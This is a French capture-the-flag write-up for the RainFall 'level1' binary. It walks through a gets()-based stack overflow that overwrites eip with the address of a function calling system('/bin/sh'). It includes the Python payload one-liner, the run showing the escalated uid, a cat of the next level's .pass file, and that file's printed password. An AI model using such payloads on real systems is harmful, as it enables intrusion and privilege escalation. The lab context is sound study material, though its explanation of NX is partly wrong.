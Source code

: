# **Level 1**

Pour le `level1` nous avons un executable qui fais juste appelle a gets et il y a aussi une fonction pas appeler qui lance un `system("/bin/sh")`

```
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}



void main(void)

{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

> Avec scp et un decompiler on recupere le code decompiler de l'executable
 
Le but ici va etre de faire un buffer overflow grace a gets pour modifier le register `eip`, celui qui designe la ou est situee la prochaine instruction

Pour ce faire la theorie n'est pas tres complique, voici un magnifique schema explicatif

![Tout va bien tu ecrit dans la stack](overflow1.png)

En temps normal tu descend ton pointeur `esp` suffisament pour que tout tes caracteres rentre dans la stack, sauf que gets ne verifie pas si tu ecris plus que prevu, donc tu peux continuer a ecrire

![C'est les problemes](overflow2.png)

De cette facon en continuant a ecrire tu peux remonter jusqu'au contenue de `eip`, la prochaine instruction pour la remplacer.

Maintenant revenons sur le header qui se lance a chaque connexion, car tout ca est rendu simple par le fais que des protections sont desactiver, tout d'abord

![Randomize_va_space](randvaspace.png)

Ce fichier permet de controller l'activation et la desactivation de l'ASLR, un outils permettant de randomizer les addresses memoire pour rendre plus difficiles la comprehension du code et ainsi plus difficilemet savoir a quoi set `eip` mais qui est ici desactiver

![file settings](headerlvl1.png)

RELRO (Relocation Read-Only): est une protection de la relocation table aui permet de securiser les liaisons dynamiques, ici desactivee

STACK CANARY: est une protection permettant de detecter les buffer overflow en mettant une valeur dans la stack qui sera modifier en cas de BO, ici desactiver

NX : permet de dire si la stack est executable ou pas, ici cela est desactiver donc on ne peux pas utiliser la stack pour executer du code

PIE (Position Independent Executable) : Cela indique si l'exécutable est compilé en tant qu'exécutable indépendant de la position, ce qui rend plus difficile l'exploitation des vulnérabilités via des attaques de réadressage, ici desactiver

Maintenant que tout ca est dit, voila comment exploiter cette faille, tout d'abord on cherche a savoir ou on voudra aller apres notre buffer overflow donc on affiche l'assembleur de la fonction run

```
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```

Et on en deduis au'il faut faire pointer `eip` sur le debuts de la fonction `0x008048444`
Encuite on construit notre `payload` a envoyer:

```
python -c "print('a'*76+'\x44\x84\x04\x08')" > /var/crash/lvl1
```

> On peux verifier la taille du payload en testant et regardant quand `eip est overwrite`, ici a partir du `77eme` caractere

> On ecrit la destination a l'envers parce que les adrresses sont en little endian

On execute en passant dans stdin notre fichier 

> On utilise cat - pour envoyer notre payload sans EOF a la fin ce qui fermerait immediatement le shell ouvert avec system

```
level1@RainFall:~$ cat /var/crash/lvl1 - | ./level1  
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

> ### NEXT : [Level 2](/level2/resources/README.md)

